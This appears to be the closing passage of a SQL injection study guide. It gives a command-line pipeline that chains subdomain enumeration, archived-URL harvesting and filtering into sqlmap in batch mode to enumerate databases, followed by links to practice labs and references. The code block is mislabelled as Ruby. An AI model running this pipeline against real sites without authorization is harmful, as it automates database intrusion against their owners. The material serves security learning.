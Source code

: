 Automate using sqlmap

```ruby
⭕️ Use Command Line Tools Like a Pro
1. sublist3r -d target | tee -a domains 
2. cat domains | httpx | tee -a alive
3. cat alive | waybackurls | tee -a urls
4. gf sqli urls >> sqli
5. sqlmap -m sqli.txt --dbs --batch
```

---

## 🔬 Labs

[**Portswigger**](https://portswigger.net/web-security/sql-injection)

[**OWASP Broken Web Applications Project**](https://sourceforge.net/projects/owaspbwa/) Install this Machine and will have a lot of Labs like DVWA, BWAPP and Webgoat etc

You can find my solution for portswigger [**HERE**](https://equatorial-soldier-1bb.notion.site/PortSwigger-Labs-473fe73ef69a4c07aebb7a48388daa38)

---

## 📕 Referance
[**Portswigger**](https://portswigger.net/web-security/sql-injection)

[**OWASP**](https://owasp.org/www-community/attacks/SQL_Injection)

[**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings)

[**hacktricks**](https://book.hacktricks.xyz/pentesting-web/sql-injection)

[**hackingarticles**](https://www.hackingarticles.in/beginner-guide-sql-injection-part-1/)




